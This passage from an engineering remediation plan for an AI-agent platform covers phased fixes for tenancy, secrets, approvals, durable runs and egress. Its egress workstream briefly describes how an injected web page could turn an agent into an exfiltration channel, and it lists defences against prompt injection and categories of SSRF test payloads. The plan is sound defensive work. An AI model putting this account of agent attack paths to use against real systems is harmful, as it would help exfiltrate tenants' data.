| `src/lib/approvals.ts` `decisionCheck` | **Keep, then extend** | Becomes `evaluateApprovalPolicy()`, then `approval_policies` with maker-checker in Phase 3. |
| `src/lib/tools.ts` registry | **Refactor** | Adds `describeForApproval`, `minGate(risk)`, the ToolError taxonomy and `safeFetch`/`withCustomerPg`. Vendors move into their own modules in Phase 3. |
| `src/lib/redis-client.ts` (TLS verification off at `:74`) | **Replace** | ioredis. `rejectUnauthorized: true` in Phase 0. |
| `src/lib/aws-s3.ts` hand-rolled SigV4 | **Replace** | `@aws-sdk/client-s3` behind `StorageProvider`. |
| `src/lib/ai.ts` `clientFor`/`modelAccess` + raw-fetch model calls in `tools.ts`, `adk-sandbox.ts` and the connection test | **Replace** | `modelCall()` gateway on the current SDK, plus the `lib/models.ts` registry. |
| `src/lib/ai.ts` `buildSystemPrompt`, `compileBrief` gate floor | **Keep** | Compile moves to tool-forced output through the gateway. |
| `src/lib/pricing.ts` | **Refactor, then replace** | Feeds the `usage_events` ledger in Phase 1. Replaced by the versioned `price_book` table in Phase 3. |
| `src/lib/spend.ts` | **Refactor** | Reads the ledger and `org_usage_periods`. The timezone-aware month SQL is kept. |
| `src/lib/guardrails.ts` | **Refactor** | Limiter moves to RateLimiterPostgres. DLP becomes one `dlp()` boundary, with safe-regex2 checks on custom patterns. |
| `src/lib/notify.ts` | **Refactor** | Its "never fails the caller, logs every attempt" contract becomes the `notify.deliver` outbox worker plus SES. |
| `src/lib/types.ts` `AgentSpec` | **Refactor** | Becomes `AgentSpecSchema` (zod, `schemaVersion: 1`) with `AgentSpec = z.infer`. `emptySpec`/`normaliseInputs` are kept as upgrade-on-read seeds. |
| `src/lib/spec-diff.ts`, `src/lib/format.ts`, `src/lib/schedule.ts`, `src/lib/skills.ts` | **Keep** | Pure modules that get unit tests first. |
| `src/app/api/agents/[id]/publish/route.ts` `validate()` (`:12`) | **Keep, then generalise** | Runs in one transaction, stores `spec_sha256`, and requires the client to send the hash it reviewed. |
| `src/lib/mcp-client.ts` canned tool lists | **Replace** | Flagged off in Phase 0. Rebuilt on `@modelcontextprotocol/sdk` in Phase 3. |
| `src/app/api/apps/[id]/proxy/[[...path]]`, `src/app/assets/[...path]`, `src/app/api/v1/[...path]` | **Replace** | Catch-alls deleted and proxy off in Phase 0. Rebuilt on a separate `apps-usercontent` domain in Phase 3. |
| `src/app/api/v1/agents/[id]/invoke` | **Replace** | Returns 404 in Phase 0. Rebuilt as `POST /v1/agents/{id}/runs` with keys and idempotency in Phase 2. |
| `src/app/api/webhooks/[id]`, connection OAuth, heartbeat, evals, playground, sandbox run, swarm | **Replace** | Flagged off in Phase 0. Rebuilt as real, tested features in Phase 3 (3.4). |
| `src/lib/agent-exporter.ts` | **Refactor** | `JSON.stringify` for every interpolation now. Fail-closed targets, authenticated ingress and golden-file tests in Phase 3. |
| `src/lib/{adk,langchain,openai,foundry}-parser.ts` | **Keep (bounded)** | Output parsed through `AgentSpecSchema` with zip size caps. No shared IR rewrite. |
| `src/components/Builder.tsx` autosave | **Refactor** | `/draft` endpoint with `expectedRevision`. Tabs moved to `next/dynamic` in Phase 3. |
| `src/components/AppCanvasViewer.tsx` postMessage bridge | **Refactor** | Checks `event.origin` and `event.source`, uses an explicit `targetOrigin` and reports only real statuses. |
| Client `fetch` in 25 components | **Replace (Phase 3)** | Typed `apiFetch` plus TanStack Query. SSE over LISTEN/NOTIFY replaces the 2 s poll. |
| `Dockerfile` | **Refactor** | Standalone output, `--omit=dev`, digest-pinned base, tini, Trivy scan, one image for both process types. |
| `src/app/api/health/route.ts` | **Refactor** | Split into `/api/health/live` and `/api/health/ready`. |

## 6. The plan

The plan has four phases, about 22 weeks with 3-4 engineers and about 30 with 2. Each phase ends at a named launch gate with measurable exit criteria, so no interim state admits users the system cannot yet protect. Effort is in engineer-days. "Risk of change" is the risk that the change itself causes a regression or outage.

### Phase 0: Fence, commit and stop the bleeding

**Duration:** 2 weeks with 3 engineers (3 weeks with 2). **Gate A:** staging and internal demos only.

**Goal:** make the codebase safe to show anyone:
- commit everything under CI;
- delete or flag off every unauthenticated, cross-tenant or fabricated surface;
- fix secret handling;
- stop `db/schema.sql` from re-granting memberships;
- close every critical finding.

Nothing new is built except guards.

| Workstream | What | Why | Findings addressed | Practices | Effort | Risk of change |
|---|---|---|---|---|---|---|
| **0.1 Commit, branch protection and CI baseline** | Land the 50 untracked files as feature-grouped PRs. Protect `master` (PR, 1 review, green checks) and add CODEOWNERS for `auth.ts`, `crypto.ts`, `orchestrator.ts`, `tools.ts` and `db/`. The GitHub Actions pipeline runs `npm ci`, `tsc --noEmit`, ESLint, Prettier, Vitest, `npm audit --audit-level=high` and gitleaks. A **route-inventory test** enumerates every `route.ts` export and fails on any handler outside the public allowlist. A CI curl scan checks that fenced paths return 401 or 404. Seed unit tests for spec-diff, schedule, pricing, `decisionCheck` and publish `validate()`. testcontainers tests cover the lease CAS, resume CAS and cron SKIP LOCKED under concurrency. Add `.nvmrc` 22.x, `packageManager` and engine-strict. | Every later phase touches run and tenancy code, and with no tests each change is a gamble. The uncommitted files are where most critical findings live. | [ops-10] [runtime-26] [quality-8] [ops-23] | Trunk-based development with branch protection, Vitest + testcontainers-node, gitleaks, a deny-by-default route inventory | M (5 d) | Low. Additive. The tests encode behaviour the code already has. |
| **0.2 Dependency emergency upgrade (time-boxed to 4 days)** | Upgrade `next` 14.2.35 to the latest patched supported major (15.x), which moves React 18.3 to 19. Run the `next-async-request-api` codemod. Upgrade nodemailer 6 to the current major. Remove the unused `xlsx` dependency and fix the README's XLSX claim. Upgrade `@anthropic-ai/sdk` 0.32.1 to current and type messages as `MessageParam[]`. Move `@types/*` to devDependencies. Enable Renovate. **Fallback if the time-box overruns:** pin the latest patched 14.2.x, add WAF rules (strip `x-middleware-subrequest`, rate rules), and move the major upgrade to week 1 of Phase 1. | Known critical and high advisories are not acceptable on an internet-facing multi-tenant product. The SDK upgrade is a prerequisite for streaming, typed errors and caching in 1.4. | [ops-9] [storage-16] [ai-19] [quality-18] [quality-21] | `@next/codemod`, npm audit gate, Renovate | M (4-5 d) | Medium. Caching defaults change. Keep `force-dynamic`, and rely on the 0.5 GET smoke test and a 51-route click-through. |
| **0.3 Kill switches for unsafe and fabricated surfaces** | Add an `org_features` table with env overrides and `requireFeature()`, checked at the route and in the navigation. **Delete** `src/app/assets/[...path]` and `src/app/api/v1/[...path]`. **Apps:** proxy returns 404. Apps become admin-only, https with a public host only, embedded directly with `sandbox="allow-scripts allow-forms"` (no `allow-same-origin`) and `noopener,noreferrer`. The bridge checks `event.origin` and `event.source`, replies to an explicit `targetOrigin`, and reports only the real `res.ok` and run status. **Public invoke** GET and POST return 404 until 2.3. **Flagged off with the UI hidden:** webhook receiver (and the hard-coded default secret is dropped), playground, evals, simulated OAuth, fabricated heartbeat health (shown as "unknown"), MCP canned tool lists, "Schedule publish", sandbox run (with the Gemini key moved to the `x-goog-api-key` header), swarm config and export. Remove trigger type `event`. In the exporter, interpolate names with `JSON.stringify` and delete the stray Python `"""`. | Five of the 7 criticals and about 20 highs sit in features that design partners do not need on day one (the other two, [runtime-2] and [data-1], are hotfixed in 0.4 and 0.5). Removing the surface is faster and safer than fixing it under pressure. Correct rebuilds come in 3.4. | [auth-3] [storage-6] [auth-4] [auth-5] [frontend-1] [integrations-30] [frontend-5] [surface-3] [gap-public-api-contract-and-commercial-controls-17] [gap-public-api-contract-and-commercial-controls-3] [ai-2] [ai-3] [frontend-14] [frontend-3] [surface-16] [auth-17] [integrations-15] [integrations-13] [surface-24] [surface-26] [surface-20] [frontend-28] [auth-9] [data-27] [gap-public-api-contract-and-commercial-controls-11] [gap-public-api-contract-and-commercial-controls-12] [runtime-20] [quality-12] [gap-agentspec-schema-evolution-20] [quality-2] [quality-1] [ops-28] | Table-backed feature flags (OpenFeature-style), attack-surface reduction, OWASP HTML5 postMessage guidance, truth in UI | M (5-6 d) | Low to medium. Demo appeal drops, but nothing depends on these paths for correctness. Agree the fence list with partners up front. |
| **0.4 Cross-tenant, secrets and governance hotfixes** | **(a) Cron:** `/api/cron` accepts only `CRON_SECRET` (`timingSafeEqual`), with no owner fallback and no cross-tenant rows in the response. Run-now becomes an org-scoped `POST /api/agents/[id]/schedule/run-now`. **(b) Boot config:** `src/lib/env.ts` validates the environment with zod and refuses to boot without an `AUTH_SECRET` of at least 32 bytes. This removes the `"dev-secret-change-me"` fallback (`src/lib/auth.ts:7`, `src/lib/crypto.ts:5`). **(c) Key split:** HKDF derives separate `jwt` and `secrets:v1` keys, and `connections.key_version` is added. `scripts/reencrypt.mjs` has dry-run and verify modes, and the legacy key stays readable for 30 days. **(d) Signup:** invite-only or operator-provisioned. The platform `ANTHROPIC_API_KEY` fallback is allowlist-only, with default caps. **(e)** Invitations and shares are accepted by token only. **(f)** RateLimiterPostgres on login, keyed by IP and by email, with progressive lockout, audited failures and a 128-character password cap. **(g)** `__Host-as_session` cookie, plus `middleware.ts` with the CSRF check, report-only CSP, HSTS, nosniff and Referrer-Policy. **(h) Gate floor:** enforced server-side on every spec write path (agents PUT/PATCH, promote, share accept, compile), and at run time `effectiveGate = max(spec.gate, registry.minGate(risk))`. **(i)** `resolveRunnableSpec(agent, {source})` is used by run-now, swarm, `invoke_agent`, cron and evals. It refuses retired agents and allows drafts only for dry-run rehearsal. dryRun propagates to children. `invoke_agent` is limited to 3 children and published targets, with no gated targets until 2.2. **(j)** Redis `rejectUnauthorized: true` (`src/lib/redis-client.ts:74`). A 25 MB content-length cap on uploads. The schedule view uses the right columns (`ended_at`, `cost_usd`) and timezone, and no longer silently disarms. | Small diffs that close critical and high privilege, tenancy and secret holes. The runtime gate floor is a one-line orchestrator change that closes the approval bypass, the highest-leverage fix in the codebase. | [runtime-2] [auth-1] [auth-8] [ops-15] [auth-11] [auth-10] [auth-15] [auth-18] [surface-10] [gap-agentspec-schema-evolution-3] [auth-14] [gap-agentspec-schema-evolution-8] [surface-23] [ai-9] [integrations-8] [data-4] [runtime-30] [runtime-31] [storage-8] [gap-public-api-contract-and-commercial-controls-5] | 12-factor fail-fast config, HKDF key separation (RFC 5869), OWASP CSRF and Session cheat sheets, defence in depth (a gate floor at write time and at run time) | L (8-10 d) | Medium. The key split logs every user out once, which is acceptable before launch. Rehearse re-encryption on a snapshot, and do not advance until the verify pass decrypts 100% of rows. |
| **0.5 Versioned migrations, database hygiene and no runtime DDL** | Adopt node-pg-migrate. **0001** is today's schema minus the DML backfills. Verify it with a `pg_dump --schema-only` diff and mark it applied on existing databases. The membership backfill becomes a one-shot migration. **0002** adds the evals and apps tables, and the runtime `create table if not exists` plus the in-memory fallbacks are deleted (`src/lib/apps.ts:100`, `src/lib/evals.ts:154`). **0003** adds indexes on `approvals.run_id`, `connections(org_id, kind)`, `documents(org_id, created_at)` and a partial index on `runs(status, locked_at)`. It adds an append-only trigger on `agent_versions`, which requires fixing the in-place rewrite at `scripts/seed-skills.mjs:131`. It makes `audit_events` INSERT-only with a trigger plus REVOKE. The pool gets an error handler, timeouts, `statement_timeout`, env-sized `max`, `verify-full` TLS and a SIGTERM close. Add a `withTx` helper. A CI smoke test migrates an empty DB and calls every GET route with no 500s. | Re-running `schema.sql` re-grants revoked memberships (critical). Runtime DDL and per-process stores rule out multiple replicas. An idle-client error crashes the process. The immutability triggers are cheap evidence controls an auditor will ask for. | [data-1] [data-10] [storage-13] [data-11] [gap-tenant-lifecycle-offboarding-15] [data-6] [data-15] [gap-agentspec-schema-evolution-6] [data-17] | Versioned run-once migrations, advisory-lock runner, expand/contract, append-only tables enforced by trigger | M (4-5 d) | Low if the baseline diff is exact. The triggers will break the seed scripts, which is intended. |

**Exit criteria (Gate A)**
- [ ] `master` is protected with 0 untracked files. CI is green with at least 40 unit tests and the 3 concurrency tests.
- [ ] The route-inventory test reports 0 unauthenticated handlers outside the allowlist. The CI curl scan of `/assets/*`, `/api/v1/*`, `/api/apps/*/proxy/*` and `/api/webhooks/*` returns 401 or 404 for every path. An OWASP ZAP baseline against staging reports 0 High or Medium alerts on those paths.
- [ ] `npm audit --omit=dev --audit-level=high` reports 0 findings, or the documented 14.2.x + WAF fallback is in place with a Phase 1 date.
- [ ] Boot fails when `AUTH_SECRET` is missing or under 32 bytes. A test proves the JWT and encryption keys differ. The re-encryption verify pass decrypts 100% of connection rows at `key_version=v1`.
- [ ] Tests prove that a spec PATCH with `send_email` gate `auto` is stored as `approval` and still pauses at run time, that a retired agent cannot run from any entry point, and that a dry run cannot spawn a real child.
- [ ] Running the migrations twice is a no-op, a revoked membership stays revoked, `grep -ri 'create table' src/` returns 0, and an UPDATE on `agent_versions` or `audit_events` raises.

### Phase 1: Durable runtime and first design-partner production

**Duration:** 6-7 weeks (6 with 4 engineers, 7 with 3, about 10 with 2). **Gate B:** about week 9.

**Goal:** run a single-region production that 3-5 invite-only design partners can use for real work. By the end of the phase:
- runs execute in workers, cut over per org;
- side effects are never duplicated on a crash;
- approvals show and bind what will execute;
- every model call is metered against a reserved budget;
- egress is SSRF-safe;
- files live in S3;
- specs are validated;
- authorisation is central and tested across tenants.

| Workstream | What | Why | Findings addressed | Practices | Effort | Risk of change |
|---|---|---|---|---|---|---|
| **1.1 Worker tier on pg-boss behind a RunExecutor seam** | Add `src/worker/index.ts`, bundled with esbuild and deployed as a second ECS service from the same image. `RunExecutor.dispatch(runId, kind)` has Inline and Queue implementations, chosen by `org_features.run_executor`. **Cutover order:** cron, then approval resume, then UI runs. **Rollout:** internal org, then 10%, then 100%. Inline, `maxDuration` and `scripts/scheduler.mjs` are deleted once every org has run on the queue for 2 weeks. **Jobs:** `run.execute` and `run.resume` (`singletonKey=runId`, enqueued in the same transaction), `cron.tick` (reuses the SKIP LOCKED claim and only enqueues), and `run.reaper` (re-enqueues expired leases and fails runs past 30 minutes). Routes return 202, and decide returns 200 immediately. Add `queued` and `cancelled` statuses, plus `started_by_kind` (user, schedule, api_key, agent). Lease heartbeat every LEASE/3, aborting on a failed renew. `admitRun` enforces per-org concurrency (`orgs.max_concurrent_runs` default 3, under an advisory lock, 429 with Retry-After). The per-agent RPM limiter moves to RateLimiterPostgres. **SIGTERM** via tini: stop fetching, persist the current step, release the lease, and exit within 60 s (ECS `stopTimeout` 120). Web sets `NEXT_MANUAL_SIG_HANDLE`, and readiness returns 503 while draining. | Runs inside HTTP requests have no timeout under `next start`, die on deploy and stay stranded because nothing reclaims `locked_at`. This is the largest single blocker to running more than one replica. | [runtime-3] [runtime-4] [runtime-6] [runtime-7] [runtime-8] [runtime-15] [runtime-17] [runtime-21] [ops-4] [ops-22] [ai-27] | Strangler fig, transactional enqueue, lease + heartbeat + reaper, graceful shutdown, per-tenant bulkhead | L (12-14 d) | **High**, because it touches the run lifecycle. Keep `advance()` and its CAS byte-for-byte, roll out per org, and gate on the chaos test. |
| **1.2 Crash-safe tool execution** | **Write-ahead steps:** insert `run_steps(status='started')` keyed by `unique(run_id, tool_use_id)` before `def.run`, then mark it ok or error. On reclaim, a started consequential tool is never re-run. It becomes `outcome_unknown` for a human to retry or skip. Low-risk read tools may re-run. Pass `tool_use_id` as the upstream idempotency key where supported. Add `unique(run_id, idx)` with a per-run sequence. Wrap all of `advance()`, including prompt and tool construction, in the try block that always reaches `finish()`. Add a `cancel_requested` flag, checked every iteration and before every tool, with an `AbortSignal` passed to the SDK and to fetch. **Merge gate:** a crash-at-every-await property test (fast-check) with a fake Anthropic client and a counting mock upstream. | Today a reclaimed lease re-sends emails and re-runs SQL writes. The Gate B criterion of 0 duplicate side effects depends on this workstream. | [runtime-5] [runtime-28] [gap-agentspec-schema-evolution-2] [ai-24] [ai-16] | Write-ahead log with at-most-once execution, idempotency keys, property-based crash testing | M (7-8 d) | Medium to high, because it changes the core loop. Covered by the property test and the testcontainers suite. |
| **1.3 Approval integrity: what the approver sees is what executes** | **Park in one transaction:** collect the turn's gated `tool_use`s, then insert all approvals, set `awaiting_approval`, write state and write the notification in a single BEGIN. Add `unique(approvals.run_id, tool_use_id)`. **Show everything:** each ToolDef gets `describeForApproval(input, ctx)`, which returns labelled recipients, subject, method + URL, SQL, bucket/key or repo, and the approvals page and RunView render them all. **Bind the destination:** snapshot the resolved destination, the connection config hash and the tool schema hash onto the approval, and refuse to execute on drift at resume. Resume builds `ToolContext` through one factory. **Retire is authoritative:** one transaction marks the agent retired, cancels its pending approvals and cancels its awaiting or running runs. Add `expires_at` on approvals, with the reaper rejecting expired ones. One pure, table-tested `evaluateApprovalPolicy()` is used by the list and decide routes. RunView keys comments by approval id, checks `res.ok` and shows inline errors. | Approvers cannot see where an email goes. A decision made inside the park window (`src/lib/orchestrator.ts:356`) strands the run. The destination can change between approval and execution. Retire does not stop actions already held. Human approval is the product's core promise. | [gap-approval-governance-and-notification-delivery-1] [gap-approval-governance-and-notification-delivery-2] [gap-approval-governance-and-notification-delivery-5] [gap-approval-governance-and-notification-delivery-8] [gap-approval-governance-and-notification-delivery-15] [gap-approval-governance-and-notification-delivery-22] [gap-agentspec-schema-evolution-5] [runtime-27] [frontend-6] [frontend-7] [frontend-27] | What-you-see-is-what-you-sign, transactional state transitions, maker-checker foundations | M (8 d) | Medium. Approval UX changes for every user, so ship it with an in-app explainer. |
| **1.4 Model gateway, usage ledger and spend reservations** | One `modelCall(orgId, purpose, actor)` serves the run loop, compile, draftSkill, synthesize and web_search (priced per search). It uses a 120 s timeout and `messages.stream().finalMessage()`. 429, 529 and connection errors rethrow as retryable so pg-boss backs off. On `stop_reason`, `max_tokens` continues, `pause_turn` loops and `refusal` fails with its category. `cache_control` goes on the system block, the last tool and the latest tool_result. **Single ledger:** append-only `usage_events` (org, run, agent, purpose, model, token classes including cache, tool fees, `amount_micros bigint`, `rate_card_version`, unique `idempotency_key`). **Reservations:** `org_usage_periods(reserved_micros, committed_micros)` with a conditional UPDATE against the cap before each call (`max_tokens` × output rate), commit after the call, and release at finish. `finish()` is idempotent over the ledger. Spend reads the ledger, so deleting an agent no longer lowers spend. Money is compared only in SQL or in integer micros. `lib/models.ts` is the single registry, and unknown models fail closed. Clients are held in an LRU keyed by connection id. | Today a model call can hang for up to about 30 minutes (the SDK default 10-minute timeout times 3 attempts), truncated or refused output is saved as a deliverable, usage before a gate, web search and compile are never billed, concurrent runs overshoot the cap, and spend is summed from mutable run rows. | [integrations-4] [ai-6] [ai-8] [ai-14] [ai-18] [ai-20] [integrations-6] [gap-public-api-contract-and-commercial-controls-6] [gap-public-api-contract-and-commercial-controls-7] [gap-public-api-contract-and-commercial-controls-16] [data-7] [data-29] [runtime-11] [runtime-29] [quality-19] | Metering at the point of consumption, reserve/commit budgeting, integer micro-currency, retries at one layer, prompt caching | L (10-11 d) | Medium. Run the ledger in shadow mode for 1 week and reconcile it daily against `runs.cost_usd` before enforcing reservations. Show reserved and committed spend separately in the UI. |
| **1.5 Egress safety and tool hardening** | `src/lib/http.ts` `safeFetch()`: an undici Agent whose custom lookup rejects private, loopback, link-local, CGNAT, metadata, multicast and IPv6-mapped addresses (ipaddr.js). http and https only, manual redirects re-validated (at most 3), a 2 MB stream cap, a content-type check and a timeout. It is used by every tool, notify, heartbeat and connection test. An owner-only, audited per-connection private-network allowlist. Slack and Teams hosts are validated on save and on send. `withCustomerPg()`: `BEGIN READ ONLY`, `SET LOCAL statement_timeout='15s'`, a pg-cursor fetch of at most 500 rows or 1 MB, TLS verification, and close in `finally`. ioredis replaces the hand-rolled client. Nodemailer gets connection, greeting and socket timeouts and `requireTLS`. A ToolError taxonomy, and retries that honour Retry-After for idempotent methods only. **Prompt injection:** tool results are wrapped as `<tool_result trust="untrusted">`. The lethal-trifecta rule gates `fetch_url` whenever the agent also holds a data source or an egress tool. Email, Slack and Teams keep their gates and get recipient-domain allowlists, a per-run send cap and text-only bodies. safe-regex2 checks custom DLP patterns. Worker security groups deny VPC CIDRs except RDS and the S3 endpoint. IMDSv2 with hop limit 1. | `fetch_url` and `http_request` are model-controlled SSRF paths to cloud metadata. Unbounded bodies and SQL result sets can take down a worker. With no egress policy, one injected page becomes an exfiltration channel. | [surface-4] [ai-4] [integrations-9] [surface-11] [surface-25] [integrations-26] [integrations-16] [integrations-17] [integrations-12] [integrations-11] [integrations-14] [integrations-19] [gap-approval-governance-and-notification-delivery-14] [ai-12] | OWASP SSRF Prevention Cheat Sheet, DNS pinning, OWASP LLM Top 10 (LLM01, LLM06), least-privilege DB sessions, network-level egress deny | L (9-11 d) | Medium. Legitimate private endpoints break until an owner allowlists them, and web-reading agents will need more approvals. Report the added approval volume. |
| **1.6 Object storage and document ingestion** | `StorageProvider` (put, getStream, delete, presign) with an S3 implementation (`@aws-sdk/client-s3` + `lib-storage`) and MinIO in dev and CI. It replaces `aws-s3.ts` SigV4. Documents store `storage_key`, sha256 and a detected MIME type (file-type magic bytes checked against an allowlist). Objects are named by UUID. Uploads stream with a 25 MB cap enforced on content-length and while streaming, plus a per-org quota. The flow is pending row, upload, then ready, with a sweeper for stale pending rows. A `doc.ingest` job extracts text once in a `worker_thread` with time and memory caps (unpdf replaces pdf-parse, and mammoth gets a size cap). Downloads are a 302 to a 5-minute presigned URL with attachment disposition and nosniff. Add `DELETE /api/documents/[id]` with an audit entry. A checksum-verified backfill copies `STORAGE_DIR` to S3, with dual-read for one release. | Local disk with absolute paths (`src/app/api/documents/route.ts:29`) breaks once web and worker are separate tasks. Buffering whole uploads in memory and parsing untrusted files in-process are easy denial-of-service vectors. | [storage-7] [storage-8] [storage-9] [storage-10] [storage-15] [storage-19] [storage-23] [integrations-18] [gap-tenant-lifecycle-offboarding-14] | Presigned URLs, magic-byte validation, out-of-process parsing, S3 SSE-KMS with Block Public Access | M (7-8 d) | Medium, because it migrates data. Dry-run first, and keep the disk fallback until the checksums verify. |
| **1.7 AgentSpec contract** | `AgentSpecSchema` in zod with `schemaVersion: 1`, and `AgentSpec = z.infer`. `maxSteps` is `z.coerce.number().int().min(1).max(40)`, guardrails are bounded and trigger is an enum. `normaliseSpec(raw, org)` drops unknown tools, connections and skills, re-derives the gate floor, strips unknown keys, and resets swarm and trigger on share accept. `specRepository.saveDraft(orgId, agentId, spec, expectedRevision)` becomes the only writer of `draft_spec`. All 7 writers migrate to it, and `agents.draft_revision` returns 409 on conflict. A lightweight `/draft` autosave (no audit, no schedule sync) is split from explicit save. Publish runs in one transaction (`select … for update`) and stores `spec_sha256`, the diff and `schemaVersion`, and the client must send the hash it reviewed. Specs are validated in `admitRun`. Compile uses tool-forced output. Import and promote cap zip entries and inflated size, `/sandbox/parse` gets a body limit, and both parse through the schema. Defaults come only from `emptySpec()`. | Specs are the product's core contract, and they enter through 7 writers and 4 import paths with no validation. That is how forged gates, NaN loop bounds, lost autosaves and stranded runs arise. The Phase 0 runtime floor stays as a backstop. | [storage-5] [quality-3] [ai-15] [ai-16] [gap-agentspec-schema-evolution-1] [gap-agentspec-schema-evolution-11] [gap-agentspec-schema-evolution-16] [gap-agentspec-schema-evolution-17] [gap-agentspec-schema-evolution-19] [storage-22] [quality-15] [quality-16] [frontend-8] [frontend-9] [frontend-22] [data-8] [auth-29] | Parse, don't validate; schema-first contracts; optimistic concurrency control; repository pattern | M (7-8 d) | Medium. Run the schema in report-only mode over a production snapshot, and write a v0-to-v1 upgrade for anything that fails. |
| **1.8 Central authorisation, route kernel and cross-tenant suite** | `withRoute({auth, schema, permission}, handler)`: requestId, session via `getUser` in React `cache()` as one joined query, zod parsing (400 with field errors, including bad JSON), `can(user, action, resource)`, and `HttpError` mapped to problem+json. Unknown errors are logged, never echoed. Migrate all 51 routes group by group, after which the route-inventory test fails on any unwrapped handler. The **policy matrix** covers owner, admin, builder, approver and a new operator role, with table-driven tests on every cell. Approvers cannot edit specs, credentials, skills, apps or schedules. Granting approver or admin is owner-only and alerts the owner. Export requires `canPublish` and is audited. Removing or demoting a member revokes their pending invitations in the same transaction. Deletes return 404 when nothing was deleted. Registration runs in one transaction. **Session revocation:** `users.session_version` is checked in the joined query, with a 24 h idle and 7 d absolute timeout, logout-everywhere, and a bump on removal. A `src/server/repositories` layer is shared by RSC pages and routes, with Kysely only in touched modules. **Cross-tenant suite:** seed two orgs and assert that every GET, PATCH and DELETE returns 404 across tenants. | Approvers and builders can edit specs and credentials. 38 routes crash with raw errors because `requireUser()`'s thrown 401 is never caught. Tenancy rests on about 200 hand-written `org_id` predicates. Partners go live on application-enforced tenancy, so it must be tested exhaustively. | [auth-13] [gap-tenant-lifecycle-offboarding-7] [gap-approval-governance-and-notification-delivery-4] [storage-20] [quality-4] [quality-13] [quality-14] [quality-11] [auth-27] [auth-22] [auth-30] [auth-16] [ai-28] [ops-25] [data-9] [data-28] [frontend-34] | Central policy decision point, RFC 9457, table-driven authorisation tests, OWASP ASVS V4 | L (11-12 d) | Medium, because the change is wide. Migrate route group by group behind the GET smoke test, and send owners a "you no longer can" report one week before enforcement. |
| **1.9 Production platform and operability** | Terraform with separate staging and prod AWS accounts: VPC, ALB + WAF (managed rules, a rate rule, strip `x-middleware-subrequest`), ECS Fargate with 2 web and 2 worker tasks from one ECR image, RDS Postgres 16 Multi-AZ (35-day PITR, `force_ssl`), S3, KMS, Secrets Manager and SES. Separate migration-owner and DML-only roles. The image uses `output: 'standalone'` with `outputFileTracingIncludes`, `--omit=dev`, a digest-pinned base and a Trivy scan. Health splits into `/api/health/live` and `/api/health/ready` (DB check with a 2 s timeout, S3 head, queue lag, git SHA). pino request and run child loggers with redaction. ESLint `no-console` and `no-empty` become errors. Sentry on web and worker. CloudWatch alarms: 5xx rate, queue depth over 50, oldest job over 5 min, stuck runs over 0, DB CPU and connections. Blue/green deploys with circuit-breaker rollback. Runbooks for deploy, rollback, PITR restore and secret rotation, plus one restore drill. **Book the scoped external pentest for week 8.** | The first real deployment needs managed backups, deploys that lose no runs, least-privilege DB roles, and enough telemetry to see a stuck run before a partner does. | [runtime-23] [ops-16] [ops-14] [ops-11] [data-25] [data-26] [data-30] [storage-25] [quality-20] [integrations-27] [runtime-25] | Infrastructure as code (Terraform), immutable images, blue/green ECS deploys, liveness vs readiness probes, structured logging | L (10-12 d) | Low to medium. The infrastructure is greenfield. Rehearse deploy and rollback in staging twice. |

**Exit criteria (Gate B)**
- [ ] 3 design-partner orgs are live in prod. 0 runs execute inside an HTTP request: every run has a job id, and `InlineExecutor` is disabled for every partner org.
- [ ] Chaos: `kill -9` a worker mid-tool 100 times. Every run resumes, fails or reaches `outcome_unknown` within 2 × LEASE, with 0 duplicate side effects on the counting mock upstream. The crash-at-every-await property test passes 1,000 trials.
- [ ] A rolling deploy during 20 concurrent runs loses 0 runs. An approval decided inside the park window never strands a run across 1,000 randomised testcontainers iterations.
- [ ] SSRF suite: 0 of 25 payloads succeed (metadata, RFC 1918, DNS rebinding, redirect-to-private, IPv6-mapped, decimal IP). A 10 s `pg_sleep` is cancelled at the 15 s statement timeout. Bodies over 2 MB are cut off.
- [ ] 20 concurrent runs against a $1 cap stay within one model call's maximum cost. 100% of model calls, including compile, have a `usage_events` row.
- [ ] The route inventory shows 100% of handlers wrapped by `withRoute`. The policy matrix covers every role × mutating route. The cross-tenant suite passes on every authenticated route.
- [ ] The scoped external pentest reports 0 open critical or high findings. The PITR restore drill meets RTO under 1 h and RPO under 5 min. p95 time from enqueue to first step is under 5 s.

### Phase 2: Harden by measured risk: side effects, API, identity, lifecycle

**Duration:** 6 weeks with 3-4 engineers (about 9 with 2). **Gate C:** about week 15, public API for partners.

**Goal:** make everything partners depend on correct under failure:
- durable notifications and delegation;
- the public API reopened safely;
- identity at the level B2B buyers expect, including MFA for privileged roles;
- KMS-backed secrets;
- the deletion and export rights that DPAs require.

Workstreams are ordered using Phase 1 alert and incident data.

| Workstream | What | Why | Findings addressed | Practices | Effort | Risk of change |
|---|---|---|---|---|---|---|
| **2.1 Notification outbox and platform sender** | `notification_outbox` (unique `dedupe_key`, event, entity, recipients, payload, attempts, `next_attempt_at`, status) is written in the same transaction as the state change. The `notify.deliver` worker sends with exponential backoff, one message per recipient, and typed templates (Slack Block Kit `plain_text`, escaped mrkdwn). It records error codes rather than raw text, builds deep links from a boot-validated `PUBLIC_BASE_URL`, and sets List-Unsubscribe. Platform and cross-tenant notices go through SES. Tenant Slack or SMTP is used only through an owner-selected notification-channel connection id. The spend-cap notice is deduplicated per org per day. Distinct trigger values route to the right recipients. A dead-letter count raises an alarm. | A lost approval email silently stalls a run. Tenant mail servers can be made to send attacker-written text. SMTP runs synchronously inside the loop. | [runtime-22] [gap-approval-governance-and-notification-delivery-9] [gap-approval-governance-and-notification-delivery-10] [gap-approval-governance-and-notification-delivery-11] [gap-approval-governance-and-notification-delivery-12] [gap-approval-governance-and-notification-delivery-13] [gap-approval-governance-and-notification-delivery-16] [gap-approval-governance-and-notification-delivery-20] [gap-public-api-contract-and-commercial-controls-21] | Transactional outbox, at-least-once delivery with dedupe, SPF/DKIM/DMARC, RFC 8058 one-click unsubscribe | M (6 d) | Low. Keep inline notify as a fallback until outbox delivery reaches at least 99.5%. |
| **2.2 Durable delegation** | `invoke_agent` enqueues a child run, and the parent enters `waiting_children`. When the child reaches a terminal state, including after its own approvals, it enqueues `run.child_join`, which appends the child's result as the `tool_result`. Persist `root_run_id`, depth and an ancestry `uuid[]` for cycle detection. Propagate a budget: remaining USD, remaining steps, and at most 5 children. `dry_run` is inherited. Targets are referenced by id and must be published. Add a unique index on `(org_id, lower(name))`, deduplicating existing names first. Lift the Phase 0 ban on gated targets. | Children block the parent, can form cycles, and never return if they hit a gate. Delegation is an advertised feature that partners will try. | [runtime-9] [runtime-10] [surface-23] [ai-9] [gap-agentspec-schema-evolution-8] [data-22] | Saga / process manager, fan-out/fan-in with a durable join, budget propagation | M (6-7 d) | Medium. Isolated to one tool and one status. The Phase 0 guard stays until this ships. |
